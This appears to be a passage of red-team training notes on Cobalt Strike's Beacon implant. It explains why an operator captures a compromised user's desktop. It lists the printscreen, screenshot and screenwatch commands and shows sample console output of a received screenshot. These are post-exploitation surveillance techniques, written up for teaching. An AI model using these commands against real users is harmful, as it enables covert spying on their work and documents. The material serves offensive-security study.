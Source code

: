 Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

Beacon has multiple commands for taking screenshots which work in slightly different ways.

```shell
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```
```shell
beacon> screenshot
[*] received screenshot of Secret Application - Internet Explorer from bfarmer (61kb)
```

To see all the screenshots that have been taken, go to **View > Screenshots**.

![alt text](file:///android_asset/20220831115517.png)

